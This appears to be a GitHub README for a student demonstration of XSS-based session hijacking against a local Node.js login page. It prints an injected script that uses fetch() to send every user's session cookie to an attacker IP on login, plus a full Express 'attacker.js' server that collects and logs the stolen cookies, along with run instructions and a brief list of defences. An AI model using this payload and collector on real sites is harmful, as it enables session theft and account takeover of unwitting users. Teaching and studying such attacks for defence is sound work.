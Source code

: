 # 🚀 XSS-Based Session Hijacking Attack (Automatic Cookie Theft)
This project demonstrates how an **XSS (Cross-Site Scripting) attack** can be used to **automatically steal a victim’s session cookie** as soon as they log in, allowing the attacker to hijack the session.

---

## 📌 Overview
### Components of the Attack:
✅ **A vulnerable login page (`index.html`)** where the victim logs in.  
✅ **A JavaScript-based XSS payload** that runs automatically when the victim logs in.  
✅ **An attacker server (`attacker.js`)** that captures and logs stolen session cookies.  
✅ **A Node.js backend (`server.js`)** running the web application.  

---

## 📌 How the Attack Works

### 1️⃣ **Step 1: Victim Logs In**
- The victim visits the vulnerable website:
http://localhost:3000

yaml
Copy
Edit
- They enter their **username & password** and click **Login**.

📌 **Screenshot:**  
![Victim Login](screenshots/ss1.png)

---

### 2️⃣ **Step 2: XSS Payload Executes Automatically**
- The victim does **not** see anything suspicious.
- In the background, the login page **automatically runs a hidden script** that sends their **session cookie** to the attacker’s server.

📌 **Screenshot:**  
![XSS Payload Executed](screenshots/ss2.png)

---

### 3️⃣ **Step 3: Attacker Receives the Stolen Cookie**
- The attacker's server (`attacker.js`) **logs the victim’s session cookie** immediately.
- The stolen cookie is also **saved to `stolen_cookies.txt`**.

📌 **Screenshot:**  
![Cookie Stolen](screenshots/ss3.png)

---

### 4️⃣ **Step 4: Attacker Uses the Stolen Cookie**
- The attacker injects the **stolen session cookie** into their browser using **EditThisCookie** or Developer Tools (`F12`).

📌 **Screenshot:**  
![Cookie Injected](screenshots/ss4.png)

---

### 5️⃣ **Step 5: Attacker Successfully Hijacks the Session**
- The attacker **refreshes the page** and is now logged in **as the victim without entering a password**.

📌 **Screenshot:**  
![Session Hijacked](screenshots/ss5.png)

---

## 📌 How to Run This Attack Locally

### 1️⃣ **Install Dependencies**
```sh
npm install express
```
### 2️⃣ **Start the Vulnerable Web Server**
```sh
node server.js
```
The web app will start on:
http://localhost:3000


### 3️⃣ **Start the Attacker’s Server**
```sh

node attacker.js
```
The attacker server will listen for stolen cookies at:
http://192.168.X.X:4000


### 📌 The XSS Payload (Auto Cookie Theft)
This script is injected into the vulnerable login page (index.html) so that when the victim logs in, their cookie is stolen automatically.

---

### 🔹 Inside index.html (before </body>)
```html

<script>
document.getElementById("loginForm").addEventListener("submit", function() {
    fetch("http://192.168.64.2:4000/steal?cookie=" + document.cookie);
});
</script>
```
🔹 Replace 192.168.64.2 with your attacker's IP (run ip a to check).

### ✅ This ensures that every login automatically sends the session cookie to the attacker! 🎯

---

### 📌 Attacker’s Server (attacker.js)
This script captures and logs the stolen session cookies.

#### 🔹 Inside attacker.js
```js
const express = require('express');
const fs = require('fs');
const app = express();

app.get('/steal', (req, res) => {
    const stolenCookie = req.query.cookie;

    if (stolenCookie) {
        console.log("🚨 Stolen Cookie:", stolenCookie);
        fs.appendFileSync('stolen_cookies.txt', `${new Date()} - ${stolenCookie}\n`);
        res.send('Cookie stolen and logged!');
    } else {
        res.send('No cookie received.');
    }
});

app.listen(4000, '0.0.0.0', () => {
    console.log('🚀 Attacker server running on http://0.0.0.0:4000');
});
```
---

## 📌 How to Defend Against This Attack
To prevent XSS-based session hijacking:

1️⃣ Use HttpOnly cookies so JavaScript cannot access them.
2️⃣ Enable Secure and SameSite flags to limit exposure.
3️⃣ Sanitize all user input to block XSS injection.
4️⃣ Implement Content Security Policy (CSP) to block unauthorized scripts.
5️⃣ Use Multi-Factor Authentication (MFA) to protect accounts.

--------------------------------------------

# 📌 CREDITS

💻 Developed by: Md Tanvir Rana(AG2409), Margarita Nyman(AG2668)

📅 Date: (2025-03-16)

🛡️ For educational and ethical hacking purposes only.

